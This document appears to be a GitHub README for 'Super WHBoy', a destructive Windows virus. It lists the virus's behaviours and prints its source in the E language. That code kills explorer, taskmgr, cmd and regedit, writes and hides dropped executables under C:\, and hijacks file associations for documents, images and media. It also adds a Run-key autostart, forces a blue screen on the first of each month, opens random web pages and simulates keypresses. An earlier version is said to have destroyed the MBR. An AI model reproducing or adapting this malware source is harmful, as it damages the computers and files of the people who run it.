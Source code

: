 Super WHBoy
=
**Project Introduction**  
* This update:
  * Cancel the function of destroying MBR and keep BSOD on the 1st day of each month.
* It is written in easy language and C language.
* There are some files: self starting.e is the program after the virus is added and started; main.e is the main body of the program, which runs only once;Killwhboy.e is the source code of antivirus program;killwhboy.exe Is the compiled antivirus program;unknow:Necessary files for compiling or running virus Ontology.For more information, see wiki.
* Viral behavior:
  * a. Release self boot file and icon file in the root directory of the system; 
  * b. Modify the registry to change the default icon of EXE file to the icon file released under the root directory;
  * c.Destroy the opening mode of some files so that they cannot be opened; 
  * d. Shut down the computer after 10 minutes;
  * e.Open a web page every 18 seconds; 
  * f.Close CMD, tasklist and regedit every 1 second; 
  * g.A warning is sent every 25 seconds.
  * h.The computer will be Blue Screen of Death on the 1st of every month.
  * i.Press five random keys every 30 seconds.
* Detoxification method: first use disk tool to search for the lost partition and recover it, then rebuild the boot record and enter the system, then run the detoxification program. Or contact the author.If it is No.1, please adjust the time under PE or do not use the poisoned computer on the same day.
* The virus also has some vulnerabilities:
>You can call up the file extension through the folder option in the control panel, and change the suffix of CMD, tasklist or regedit to com, so that you can open the program and use it.  
**Code:**  
# Main.e  
## Window assembly:  
`.版本 2  `  
`.支持库 eAPI  `  
`.程序集 窗口程序集_启动窗口  `  
`.子程序 __启动窗口_创建完毕  `  
`' 重启资源管理器  `  
`终止进程 (“explorer.exe”)  `  
`运行 (“explorer”, 假, #隐藏窗口)  `  
`' 释放病毒文件  `  
`写到文件 (“C:\icon.ico”, #icon)  `  
`写到文件 (“C:\wrom.exe”, #wrom)  `  
`写到文件 (“C:\img.bmp”, #img)  `  
`置文件属性 (“C:\wrom.exe”, #隐藏文件)  `  
`运行 (“C:\wrom.exe”, 假, )  `  
`' 修改注册表  `  
`写注册项 (#根类, “.lnk\”, “exefile”)  `  
`写注册项 (#根类, “.doc\”, “exefile”)  `  
`写注册项 (#根类, “.docx\”, “exefile”)  `  
`写注册项 (#根类, “.ppt\”, “exefile”)  `  
`写注册项 (#根类, “.pptx\”, “exefile”)  `  
`写注册项 (#根类, “.xls\”, “exefile”)  `  
`写注册项 (#根类, “.xlsx\”, “exefile”)  `  
`写注册项 (#根类, “.png\”, “exefile”)  `  
`设置桌面墙纸 (“C:\img.bmp”, 2)  `  
`' 文件关联2  `  
`写注册项 (#根类, “.jpg\”, “exefile”)  `  
`写注册项 (#根类, “.jpeg\”, “exefile”)  `  
`写注册项 (#根类, “.bmp\”, “exefile”)  `  
`写注册项 (#根类, “.com\”, “exefile”)  `  
`写注册项 (#根类, “.mp3\”, “exefile”)  `  
`写注册项 (#根类, “.mp4\”, “exefile”)  `  
`写注册项 (#根类, “.avi\”, “exefile”)  `  
`写注册项 (#根类, “.mp5\”, “exefile”)  `  
`写注册项 (#根类, “.txt\”, “exefile”)  `  
`写注册项 (#根类, “.bat\”, “exefile”)  `  
`写注册项 (#根类, “.cmd\”, “exefile”)  `  
`写注册项 (#根类, “.vbs\”, “exefile”)  `  
`写注册项 (#根类, “.java\”, “exefile”)  `  
`写注册项 (#根类, “.cpp\”, “exefile”)  `  
`写注册项 (#根类, “exefile\DefaultIcon\”, “C:\icon.ico”)  `  
`' 开机自启动  `  
`写注册项 (#本地机器, “software\microsoft\windows\CurrentVersion\Run\wrom”, “C:\wrom.exe”)  `  
`' 重启资源管理器  `  
`终止进程 (“explorer.exe”)  `  
`运行 (“explorer”, 假, #隐藏窗口)  `  
`信息框 (“Oh?”, 0, “Super WHBoy”, )  `  
`.子程序 _数值增加_周期事件  `  
`BoxNumber ＝ BoxNumber ＋ 1  `  
`.子程序 _自我防护_周期事件  `  
`终止进程 (“taskmgr.exe”)  `  
`终止进程 (“cmd.exe”)  `  
`终止进程 (“regedit.exe”)  `  
## Picture&Program res
`.版本 2`  
`.图片 icon`  
`.图片 wrom`  
`.图片 img` 
# Self Starting.e 
`.版本 2`  
`.子程序 _变卡_周期事件`  
`置随机数种子 ()`  
`超级链接框1.Internet地址 ＝ 到文本 (“www.” ＋ 字符 (取随机数 (1, 100)) ＋ 字符 (取随机数 (1, 100)) ＋ 字符 (取随机数 (1, 100)) ＋ 字符 (取随机数 (1, 100)) ＋ “.com”)`  
`超级链接框1.跳转 ()`  
**And Blue screen: **   
`.版本 2  `  
`.子程序 _时钟1_周期事件  `  
`编辑框1.内容 ＝ 到文本 (取现行时间 ())  `  
`.判断开始 (寻找文本 (编辑框1.内容, “1日”, , 假) ＞ 0)  `  
    `系统_蓝屏 ()  `  
**Pop up windows and buttons:**  
`.版本 2`  
`.支持库 eAPI`  
`.子程序 _警告弹窗_周期事件`  
`信息框 (“Your computer is poisoned!”, #错误图标, “Super WHBoy”, )`  
`.子程序 _按键事件_周期事件`  
`置随机数种子 ()`  
`.计次循环首 (5, )`  
    `模拟按键 (字符 (取随机数 (65, 90)), 字符 (取随机数 (65, 90)), 字符 (取随机数 (65, 90)))`  
    `模拟按键 (字符 (取随机数 (65, 90)), 字符 (取随机数 (65, 90)), )`  
`.计次循环尾 ()`  
